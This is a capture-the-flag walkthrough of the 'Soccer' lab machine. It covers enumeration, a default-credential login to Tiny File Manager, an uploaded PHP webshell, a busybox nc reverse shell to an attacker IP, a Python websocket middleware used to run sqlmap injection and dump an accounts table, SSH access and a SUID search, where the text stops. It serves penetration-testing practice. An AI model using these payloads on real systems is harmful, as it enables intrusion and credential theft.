- Machine Name: Soccer
- Difficulty: Easy
- OS Type: Linux

### Port Scanning - Service & Version Enumeration

```jsx
# Nmap 7.95 scan initiated Thu Jun 19 19:29:46 2025 as: /usr/lib/nmap/nmap -sVC --open -p- -oN initial/nmap.out -vv 10.10.11.194
Nmap scan report for 10.10.11.194
Host is up, received echo-reply ttl 63 (0.22s latency).
Scanned at 2025-06-19 19:29:53 IST for 99s
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE         REASON         VERSION
22/tcp   open  ssh             syn-ack ttl 63 OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 ad:0d:84:a3:fd:cc:98:a4:78:fe:f9:49:15:da:e1:6d (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQChXu/2AxokRA9pcTIQx6HKyiO0odku5KmUpklDRNG+9sa6olMd4dSBq1d0rGtsO2rNJRLQUczml6+N5DcCasAZUShDrMnitsRvG54x8GrJyW4nIx4HOfXRTsNqImBadIJtvIww1L7H1DPzMZYJZj/oOwQHXvp85a2hMqMmoqsljtS/jO3tk7NUKA/8D5KuekSmw8m1pPEGybAZxlAYGu3KbasN66jmhf0ReHg3Vjx9e8FbHr3ksc/MimSMfRq0lIo5fJ7QAnbttM5ktuQqzvVjJmZ0+aL7ZeVewTXLmtkOxX9E5ldihtUFj8C6cQroX69LaaN/AXoEZWl/v1LWE5Qo1DEPrv7A6mIVZvWIM8/AqLpP8JWgAQevOtby5mpmhSxYXUgyii5xRAnvDWwkbwxhKcBIzVy4x5TXinVR7FrrwvKmNAG2t4lpDgmryBZ0YSgxgSAcHIBOglugehGZRHJC9C273hs44EToGCrHBY8n2flJe7OgbjEL8Il3SpfUEF0=
|   256 df:d6:a3:9f:68:26:9d:fc:7c:6a:0c:29:e9:61:f0:0c (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBIy3gWUPD+EqFcmc0ngWeRLfCr68+uiuM59j9zrtLNRcLJSTJmlHUdcq25/esgeZkyQ0mr2RZ5gozpBd5yzpdzk=
|   256 57:97:56:5d:ef:79:3c:2f:cb:db:35:ff:f1:7c:61:5c (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJ2Pj1mZ0q8u/E8K49Gezm3jguM3d8VyAYsX0QyaN6H/
80/tcp   open  http            syn-ack ttl 63 nginx 1.18.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://soccer.htb/
9091/tcp open  xmltec-xmlmail? syn-ack ttl 63
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, Help, RPCCheck, SSLSessionReq, drda, informix: 
|     HTTP/1.1 400 Bad Request
|     Connection: close
|   GetRequest: 
|     HTTP/1.1 404 Not Found
|     Content-Security-Policy: default-src 'none'
|     X-Content-Type-Options: nosniff
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 139
|     Date: Thu, 19 Jun 2025 14:01:12 GMT
|     Connection: close
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta charset="utf-8">
|     <title>Error</title>
|     </head>
|     <body>
|     <pre>Cannot GET /</pre>
|     </body>
|     </html>
|   HTTPOptions, RTSPRequest: 
|     HTTP/1.1 404 Not Found
|     Content-Security-Policy: default-src 'none'
|     X-Content-Type-Options: nosniff
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 143
|     Date: Thu, 19 Jun 2025 14:01:13 GMT
|     Connection: close
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta charset="utf-8">
|     <title>Error</title>
|     </head>
|     <body>
|     <pre>Cannot OPTIONS /</pre>
|     </body>
|_    </html>
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port9091-TCP:V=7.95%I=7%D=6/19%Time=68541823%P=x86_64-pc-linux-gnu%r(in
SF:formix,2F,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nConnection:\x20close\r
SF:\n\r\n")%r(drda,2F,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nConnection:\x
SF:20close\r\n\r\n")%r(GetRequest,168,"HTTP/1\.1\x20404\x20Not\x20Found\r\
SF:nContent-Security-Policy:\x20default-src\x20'none'\r\nX-Content-Type-Op
SF:tions:\x20nosniff\r\nContent-Type:\x20text/html;\x20charset=utf-8\r\nCo
SF:ntent-Length:\x20139\r\nDate:\x20Thu,\x2019\x20Jun\x202025\x2014:01:12\
SF:x20GMT\r\nConnection:\x20close\r\n\r\n<!DOCTYPE\x20html>\n<html\x20lang
SF:=\"en\">\n<head>\n<meta\x20charset=\"utf-8\">\n<title>Error</title>\n</
SF:head>\n<body>\n<pre>Cannot\x20GET\x20/</pre>\n</body>\n</html>\n")%r(HT
SF:TPOptions,16C,"HTTP/1\.1\x20404\x20Not\x20Found\r\nContent-Security-Pol
SF:icy:\x20default-src\x20'none'\r\nX-Content-Type-Options:\x20nosniff\r\n
SF:Content-Type:\x20text/html;\x20charset=utf-8\r\nContent-Length:\x20143\
SF:r\nDate:\x20Thu,\x2019\x20Jun\x202025\x2014:01:13\x20GMT\r\nConnection:
SF:\x20close\r\n\r\n<!DOCTYPE\x20html>\n<html\x20lang=\"en\">\n<head>\n<me
SF:ta\x20charset=\"utf-8\">\n<title>Error</title>\n</head>\n<body>\n<pre>C
SF:annot\x20OPTIONS\x20/</pre>\n</body>\n</html>\n")%r(RTSPRequest,16C,"HT
SF:TP/1\.1\x20404\x20Not\x20Found\r\nContent-Security-Policy:\x20default-s
SF:rc\x20'none'\r\nX-Content-Type-Options:\x20nosniff\r\nContent-Type:\x20
SF:text/html;\x20charset=utf-8\r\nContent-Length:\x20143\r\nDate:\x20Thu,\
SF:x2019\x20Jun\x202025\x2014:01:13\x20GMT\r\nConnection:\x20close\r\n\r\n
SF:<!DOCTYPE\x20html>\n<html\x20lang=\"en\">\n<head>\n<meta\x20charset=\"u
SF:tf-8\">\n<title>Error</title>\n</head>\n<body>\n<pre>Cannot\x20OPTIONS\
SF:x20/</pre>\n</body>\n</html>\n")%r(RPCCheck,2F,"HTTP/1\.1\x20400\x20Bad
SF:\x20Request\r\nConnection:\x20close\r\n\r\n")%r(DNSVersionBindReqTCP,2F
SF:,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nConnection:\x20close\r\n\r\n")%
SF:r(DNSStatusRequestTCP,2F,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nConnect
SF:ion:\x20close\r\n\r\n")%r(Help,2F,"HTTP/1\.1\x20400\x20Bad\x20Request\r
SF:\nConnection:\x20close\r\n\r\n")%r(SSLSessionReq,2F,"HTTP/1\.1\x20400\x
SF:20Bad\x20Request\r\nConnection:\x20close\r\n\r\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Jun 19 19:31:32 2025 -- 1 IP address (1 host up) scanned in 106.58 seconds
```

## Enumeration

### Port 80/HTTP

let’s open the URL in web browser



it redirects to soccer.htb looks like it’s configured to accessible only via hostname

```jsx
echo "10.10.11.194 soccer.htb" |sudo tee -a /etc/hosts
```

and then refresh the page


let’s run gobuster to search for any hidden files and directories

```jsx
gobuster dir -u http://soccer.htb/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-medium-directories.txt
```



nice we found interesting directory, /tiny let’s open it



it shows the tiny file manager application, i tried `admin:admin` but not worked, then searched for the default credentials for the application i found https://github.com/projectdiscovery/nuclei-templates/blob/main/http/default-logins/tiny-file-manager-default-login.yaml which says the default credentials is - **`admin:admin@123`**



Bingo, we are in, always check the default credentials for applications, nice we got the access to tiny file manager admin panel now we can upload the files, let’s first try to upload php file with basic webshell

***0xh3x.php***

```php
<?php system($_GET['cmd']); ?>
```

there’s issue while uploading file to the /var/www/htmll



we found another tiny folder, let’s check if we can upload the files there



we found uploads folder, let’s upload here



now we can successfully upload the our webshell - 0xh3x.php



to get command execution let’s try to access the file at http://soccer.htb/tiny/uploads/0xh3x.php



we specify the command to `cmd` parameter

nice we got command exection over the machine now let’s get the reverse shell. i’ll be using busybox nc reverse shell command

```php
busybox nc 10.10.14.12 443 -e /bin/bash
```



further enumeration reveals that there’s mysql database running on the machine,  but unfortunately we don’t have any credentials, moving forward we found an user - player on the system

While enumerating internal systems, I found another subdomain - soc-player.soccer.htb

reading the nginx configuration we found that the web server running internally on port 3000



let’s add soc-player.soccer.htb to  /etc/hosts file and open it


as we can see the login and signup buttons now let’s singup and see what we can do with this app



and then login, after login we redirected to /check page



now if we enter the ticket id it check if ticket is available or not



but when submitting the request i’m not able to see any request that send to server, let’s use burpusite to check what’s going on behind the scenes



giIf we can see it sending the websockets instead of HTTP requests, to check if it is vulnerable to SQL injection or not, I searched for websocket SQLi. I found this amazing article → https://rayhan0x01.github.io/ctf/2021/04/02/blind-sqli-over-websocket-automation.html that gives the python script which creates middleware between websocket and sqlmap, in short creates website

 

```php
from http.server import SimpleHTTPRequestHandler
from socketserver import TCPServer
from urllib.parse import unquote, urlparse
from websocket import create_connection

ws_server = "ws://soc-player.soccer.htb:9091/ws"

def send_ws(payload):
	ws = create_connection(ws_server)
	# If the server returns a response on connect, use below line	
	#resp = ws.recv() # If server returns something like a token on connect you can find and extract from here
	
	# For our case, format the payload in JSON
	message = unquote(payload).replace('"','\'') # replacing " with ' to avoid breaking JSON structure
	data = '{"id":"%s"}' % message

	ws.send(data)
	resp = ws.recv()
	ws.close()

	if resp:
		return resp
	else:
		return ''

def middleware_server(host_port,content_type="text/plain"):

	class CustomHandler(SimpleHTTPRequestHandler):
		def do_GET(self) -> None:
			self.send_response(200)
			try:
				payload = urlparse(self.path).query.split('=',1)[1]
			except IndexError:
				payload = False
				
			if payload:
				content = send_ws(payload)
			else:
				content = 'No parameters specified!'

			self.send_header("Content-type", content_type)
			self.end_headers()
			self.wfile.write(content.encode())
			return

	class _TCPServer(TCPServer):
		allow_reuse_address = True

	httpd = _TCPServer(host_port, CustomHandler)
	httpd.serve_forever()

print("[+] Starting MiddleWare Server")
print("[+] Send payloads in http://localhost:8081/?id=*")

try:
	middleware_server(('0.0.0.0',8081))
except KeyboardInterrupt:
	pass
```

run above script with python - `python3 server.py` 

and then run sqlmap on `http://localhost:8081/?id=1`



let’s enumerate databases using - `sqlmap -u '[http://localhost:8081/?id=1](http://localhost:8081/?id=1)' --dbs` 



let’s get the list of tables in the Database - `sqlmap -u '[http://localhost:8081/?id=1](http://localhost:8081/?id=1)' -D soccer_db --tables` 



nice we got the accounts table, we can dump data from it using `--dump` 

```php
sqlmap -u 'http://localhost:8081/?id=1' -D soccer_db -T accounts --dump
```



let’s ssh as player user

```php
ssh player@10.10.11.194
```



i then ran find command to search to find any interesting SUID binaries

```php
find / -type  f -perm -4000 2>/dev/null
```

